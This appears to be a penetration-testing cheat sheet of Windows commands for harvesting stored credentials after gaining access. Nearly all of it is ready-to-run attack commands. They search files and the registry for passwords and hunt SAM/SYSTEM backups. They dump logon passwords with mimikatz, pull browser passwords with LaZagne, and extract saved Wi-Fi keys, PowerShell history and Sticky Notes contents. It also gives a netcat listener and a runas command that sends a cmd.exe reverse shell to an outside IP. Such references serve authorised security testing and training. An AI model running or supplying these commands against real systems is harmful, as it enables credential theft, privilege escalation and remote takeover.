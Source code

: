 ```yaml
---
legal-banner: true
---
```


### **File searching commands**

1.  Search for potentially risky files in the current directory and subdirectories:  
    `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config* == *user*`
    
2.  Search for cleartext credentials in XML files:  
    `gci * -Include *.xml -Recurse -EA SilentlyContinue | select-string cpassword`
    
3.  Search for IIS web.config files:  
    `Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue`
    
4.  Find files containing the word "password" across common configuration file types:  
    `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1 *.bat *.zip`
    
5.  Hunt for SAM and SYSTEM backups:  
    `cd C: & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK`
    
6.  Use **winPEAS** to search for credential files:  
    `.\winPEASany.exe quiet cmd searchfast filesinfo`

### **Searching for credentials in the registry**

1.  Search for passwords in `HKLM`:  
    `reg query HKLM /f password /t REG_SZ /s`
2.  Search for passwords in `HKCU`:  
    `reg query HKCU /f password /t REG_SZ /s`
3.  Retrieve PuTTY credentials:  
    `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions /f "Proxy" /s`

### **Saved Windows credentials**

Windows allows saving credentials for reuse. These commands help enumerate and leverage them:

1.  Identify saved credentials with **winPEAS**:  
    `.\winPEASx64.exe quiet cmd windowscreds`
2.  Check AutoLogon credentials in the registry:  
    `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"`
3.  Extract plaintext passwords from memory with mimikatz:  
    `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`
4.  Manually list saved credentials:  
    `cmdkey /list`
5.  Run commands with saved credentials:  
    `runas /savecred /user:admin cmd.exe`
6.  Start a Netcat listener:  
    `nc -lvnp 1337`
7.  Use saved credentials to trigger a reverse shell:  
    `runas /env /noprofile /savecred /user:DESKTOP-T3I4BBK\administrator "c:\temp\nc.exe [IP-ADDRESS] 1337 -e cmd.exe"`

### **PowerShell history file**

1.  Locate the PowerShell history file:  
    `(Get-PSReadLineOption).HistorySavePath`
2.  Read contents of the history file:  
    `gc (Get-PSReadLineOption).HistorySavePath`
3.  Retrieve history for all users:  
    `foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}`

### **Browser credentials**

1.  Extract browser credentials with LaZagne:  
    `lazagne.exe browsers`
2.  Example: Search Chrome dictionary file for "password":  
    `gc 'C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password`

### **PowerShell credentials**

1.  Import credentials from XML:  
    `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`
2.  Retrieve username:  
    `$credential.GetNetworkCredential().Username`
3.  Retrieve password:  
    `$credential.GetNetworkCredential().Password`
4.  Full example:  

    ```powershell
    $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
    $username = $credential.GetNetworkCredential().Username
    $password = $credential.GetNetworkCredential().Password
    "Username: $username"
    "Password: $password"
    ```

### **Sticky Notes passwords**

1.  Locate Sticky Notes database:  
    `ls C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState`
2.  Allow PowerShell execution in current process:  
    `Set-ExecutionPolicy Bypass -Scope Process`
3.  Navigate to the PSSQLite module directory:  
    `cd .\PSSQLite\`
4.  Import the PSSQLite module:  
    `Import-Module .\PSSQLite.psd1`
5.  Define the database path:  
    `$db = 'C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'`
6.  Query the database:  
    `Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | Format-Table -Wrap`
7.  Alternative: dump contents with `strings`:  
    `strings 'C:\Users\[USER]\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite-wal'`

### **Wi-Fi passwords**

1.  List saved wireless networks:  
    `netsh wlan show profile`
2.  Retrieve password for a profile:  
    `netsh wlan show profile [PROFILE-NAME] key=clear`
3.  One-liner to extract all saved Wi-Fi passwords:  
    `cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on`

### **Unattend.xml**

Windows Deployment Services often leave unattended installation files containing admin credentials.

#### **Manually check common locations**

- `C:\Unattend.xml`  
- `C:\Windows\Panther\Unattend.xml`  
- `C:\Windows\Panther\Unattend\Unattend.xml`  
- `C:\Windows\System32\sysprep.inf`  
- `C:\Windows\System32\sysprep\sysprep.xml`

#### **Automatically search**

1.  Find unattended/sysprep files:  
    `Get-ChildItem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue`
2.  Search for specific filenames:  
    `dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul`
3.  Search for "password" in all files:  
    `findstr /spin "password" *.*`
4.  Example from `Unattend.xml`:  

    ```xml
    <AutoLogon>
        <Password>
            <Value>HackFast_p@ss</Value>
            <PlainText>true</PlainText>
        </Password>
        <Enabled>true</Enabled>
        <LogonCount>2</LogonCount>
        <Username>Administrator</Username>
    </AutoLogon>
    ```